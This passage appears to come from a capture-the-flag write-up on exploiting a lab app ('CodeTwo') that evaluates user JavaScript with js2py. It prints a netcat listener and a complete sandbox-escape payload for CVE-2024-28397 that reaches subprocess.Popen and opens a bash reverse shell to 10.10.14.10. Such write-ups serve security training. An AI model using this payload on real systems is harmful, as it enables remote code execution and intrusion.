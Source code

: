 Key discovery in

```plaintext
app.py
:

result = js2py.eval_js(code)
```

The app executes **user-supplied JS code** using

```plaintext
js2py
```

## Vulnerability: CVE-2024–28397 (js2py Sandbox Escape)

The `eval_js` function is vulnerable to a sandbox escape in js2py ≤ 0.74.  
It allows access to Python internals and execution of OS commands.

## 3\. Exploitation

## Reverse Shell Exploit

Set up a listener:

```plaintext
nc -lvnp 4444
```

Exploit payload to paste into the CodeTwo JS editor:

```plaintext
let cmd = "bash -c 'bash -i >& /dev/tcp/10.10.14.10/4444 0>&1'";
let hacked, bymarve, n11;
let getattr, obj;

hacked = Object.getOwnPropertyNames({});
bymarve = hacked.__getattribute__;
n11 = bymarve("__getattribute__");

obj = n11("__class__").__base__;
getattr = obj.__getattribute__;

function findpopen(o) {
  let result;
  for (let i in o.__subclasses__()) {
    let item = o.__subclasses__()[i];
    if (item.__module__ == "subprocess" && item.__name__ == "Popen") {
      return item;
    }
    if (item.__name__ != "type" && (result = findpopen(item))) {
      return result;
    }
  }
}
findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate();
"OK";
```

